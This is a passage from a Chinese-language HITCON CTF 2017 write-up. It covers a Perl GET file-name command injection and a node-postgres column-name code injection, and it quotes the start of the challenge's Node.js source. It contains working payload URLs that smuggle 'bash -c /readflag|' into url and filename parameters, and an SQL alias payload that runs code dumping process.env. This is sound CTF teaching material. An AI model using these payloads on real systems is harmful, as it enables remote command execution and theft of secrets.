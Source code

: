 综合看起来像是一个把文件名拼接入命令导致的命令执行。

我们可以测试一下
```
root@iZ285ei82c1Z:~/test# GET 'file:id|'
uid=0(root) gid=0(root) groups=0(root)
```

成功执行命令了，那么思路就清楚了，我们通过传入命令文件名和命令来
执行。

payload来自rr的博客
```
http://13.115.136.15/?url=file:bash%20-c%20/readflag|&filename=bash%20-c%20/readflag|
http://13.115.136.15/?url=file:bash%20-c%20/readflag|&filename=bash%20-c%20/readflag|
http://13.115.136.15/sandbox/c36eb1c4372f5f8131542751d486cebd/bash%20-c%20/readflag%7C
```

# sql so hard #

题目是nodejs的注入导致的命令执行漏洞，漏洞利用链非常精巧，首先我们需要了解一个漏洞，整个漏洞@Phith0n师傅发了很详细的分析

[https://paper.seebug.org/438/](https://paper.seebug.org/438/)

简单描述漏洞来说，在node-postgres里，执行完数据库查询语句，会返回数据的字段名字和数量，node后端会把字段的名字经过不完整的转义就拼接进入了Function类，导致了命令执行，这个命令执行在前端会导致xss，在后端就会导致命令执行。

这里的转义不完全指的就是，只转义了单引号，但是没转义反斜杠，导致可以传入`\'`，那么`\'`会变成`\\'`,单引号就逃逸出来了。

假设我们执行
```
sql = `SELECT 1 AS "\\'+console.log(process.env)]=null;//"`
```

那么传入Function的内容就是
```
this['\\'+console.log(process.env)]=null;//'] = rowData[0] == null ? null : parsers[0](rowData[0]);
```

前后都有相应的闭合，代码就被执行了。

那么我们回到题目里，代码如下：
```
#!/usr/bin/node

/**
 *  @HITCON CTF 2017
 *  @Author Orange Tsai
 */

const qs = require("qs");
const fs = require("fs");
const pg = require("pg");
const mysql = require("mysql");
const crypto = require("crypto");
const express = require("express");

const pool = mysql.createPool({
    connectionLimit: 100, 
    host: "localhost",
    user: "ban",
    password: "ban",
    database: "bandb",
});

const client = new pg.Client({
    host: "localhost",
    user: "userdb",
    password: "userdb",
```

  [1]: http://static.zybuluo.com/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: http://static.zybuluo.com/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png